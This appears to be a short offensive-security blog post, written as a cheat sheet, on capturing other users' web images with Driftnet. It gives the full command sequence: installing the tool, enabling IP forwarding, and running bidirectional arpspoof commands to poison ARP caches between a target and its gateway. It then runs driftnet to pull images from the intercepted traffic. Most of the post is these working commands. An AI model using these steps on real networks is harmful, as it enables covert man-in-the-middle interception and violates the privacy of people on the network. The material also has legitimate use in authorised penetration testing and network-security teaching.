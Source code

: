 ```yaml
---
layout: post
title: Driftnet with ARP Poisoning
date: 2018-07-31 19:09 -0300
categories: [sniffing, offensive_security]
tags: [ offensive security, cheat sheet, sniffing, mitm, arp]
---
```


![Image of Driftnet](/uploads/Screenshot%20from%202018-08-01%2001-16-32.png)

[https://github.com/deiv/driftnet](https://github.com/deiv/driftnet)

Driftnet watches network traffic, and picks out and displays JPEG and GIF images for display. It is a horrific invasion of privacy and shouldn't be used by anyone anywhere. It can also extract MPEG audio data from the network and play it. If you live in a house with thick walls, this may be a useful way to find out about your neighbours' musical taste.

### Installing 

```
sudo apt-get install driftnet	
```

### Preparing the machine 

As root:

```terminal
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### ARP Poisoning

As any user we have to create an arp poisoning in two different terminals:

```terminal
sudo arpspoof -i tap0 -t <target 1 ip> -r <target 2 ip or gateway>
```

```terminal
sudo arpspoof -i tap0 -t <target 2 ip or gateway> -r <target 1 ip>
```


In order to begin collecting images:

```terminal
sudo driftnet -i <network interface>
```

The article image is a live example of HTTP delivered website and you can observe all the icons and the placeholder images.